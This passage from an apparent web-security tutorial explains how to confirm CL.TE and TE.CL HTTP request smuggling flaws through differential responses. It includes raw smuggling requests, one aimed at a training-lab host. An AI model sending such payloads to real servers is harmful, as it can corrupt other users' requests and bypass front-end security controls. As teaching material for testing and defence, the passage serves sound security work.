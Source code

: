 To confirm a CL.TE vulnerability, you would send an attack request like this:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

#### Confirming TE.CL vulnerabilities using differential responses <a href="#confirming-te-cl-vulnerabilities-using-differential-responses" id="confirming-te-cl-vulnerabilities-using-differential-responses"></a>

To confirm a TE.CL vulnerability, you would send an attack request like this:

```
POST / HTTP/1.1
Host: 0a1200b504f9982380bdad3400040034.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
